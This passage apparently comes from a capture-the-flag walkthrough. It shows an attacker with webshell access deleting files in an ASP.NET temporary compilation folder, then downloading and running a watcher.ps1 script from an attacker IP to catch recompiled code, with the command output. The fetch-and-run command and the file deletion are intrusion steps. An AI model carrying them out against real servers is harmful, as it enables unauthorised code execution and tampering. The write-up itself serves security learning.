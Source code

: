     
    
    PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\root\cfb457c9\c7fa5157> del *
    del *
    

This can hang, and sometimes it completed without deleting everything (I just
ran it again until it finished).

Next I’ll upload the `watcher.ps1` file to that directory:

    
    
    PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\root\cfb457c9\c7fa5157> iwr http://10.10.14.15/watcher.ps1 -outfile watcher.ps1
    
    PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\root\cfb457c9\c7fa5157> ls
    
        Directory: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\root\cfb457c9\c7fa5157
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        5/30/2021  12:43 PM           1421 watcher.ps1
    

Now I’ll run it:

    
    
    PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\root\cfb457c9\c7fa5157> .\watcher.ps1
    .\watcher.ps1
    
    Id     Name            PSJobTypeName   State         HasMoreData     Location             Command                  
    --     ----            -------------   -----         -----------     --------             -------                  
    1      FileChanged                     NotStarted    False                                 ...   
    

It says `NotStarted`, but that’s ok.

From the SSH shell, I’ll request the site. It takes a minute, but it comes
back:

    
    
    PS C:\inetpub\source\uploads> iwr http://127.0.0.1:8080 -UseBasicParsing
    StatusCode        : 200
    StatusDescription : OK 
    ...[snip]...
    

While it’s waiting, status lines start printing on the webshell shell:

    
    
    The file 'App_Web_3u0g0msp.0.cs' was Changed at 05/30/2021 12:45:21
    Current trig: 0 by 'App_Web_3u0g0msp.0.cs'
    The file 'App_Web_3u0g0msp.1.cs' was Changed at 05/30/2021 12:45:21
    The file 'App_Web_3u0g0msp.0.cs' was Changed at 05/30/2021 12:45:22
    The file 'App_Web_3u0g0msp.0.cs' was Changed at 05/30/2021 12:45:22
    The file 'App_Web_u0qkgrng.0.cs' was Changed at 05/30/2021 12:45:36
    The file 'App_Web_u0qkgrng.1.cs' was Changed at 05/30/2021 12:45:36
    The file 'App_Web_y2w2ry3y.0.cs' was Changed at 05/30/2021 12:45:37
    The file 'App_Web_y2w2ry3y.1.cs' was Changed at 05/30/2021 12:45:37
    The file 'App_Web_y2w2ry3y.2.cs' was Changed at 05/30/2021 12:45:37
    